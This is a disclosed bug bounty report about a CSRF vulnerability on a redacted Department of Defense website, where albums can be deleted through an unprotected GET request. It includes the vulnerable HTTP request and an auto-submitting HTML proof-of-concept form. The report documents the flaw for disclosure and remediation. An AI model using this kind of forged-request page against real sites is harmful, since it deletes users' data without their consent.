 # CSRF Attack leads to delete album at

## Report Details
- **Report ID**: 2652190
- **URL**: https://hackerone.com/reports/2652190
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2024-08-12T15:00:29.077Z
- **Disclosed**: 2024-12-18T19:46:08.142Z

## Reporter
- **Username**: prakhar0x01
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Description:**
Through research, I discovered a CSRF vulnerability in one of the DoD asset. `www.████████`

There is a feature to create albums for a collection of media such as photos and videos. While performing some actions on it, I found that there is no CSRF verification when deleting albums. 
Additionally, the delete request is based on GET, So it'll more easier for an attacker to exploit it..

## Vulnerable Request

```
GET /mediagallery/delete/id/{album-id} HTTP/2
Host: www.██████
Cookie: {YOUR-SESSSION}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.97 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: https://www.█████████/mediagallery/index
```

## References
- Here is the detailed Video PoC
████

## Impact

- CSRF Attack
- Delete users album

## System Host(s)
www.█████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
1 - Create an account on `www.███████`
2 - Navigate to `https://www.█████████/search?filter[type]=image` , and click on the below icon to create an album.

████████

3 - Here is the CSRF PoC exploit.

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://www.█████/mediagallery/delete/id/{album-id}">
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

4 - Replace the `{album-id}` with your actual `album-id`

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
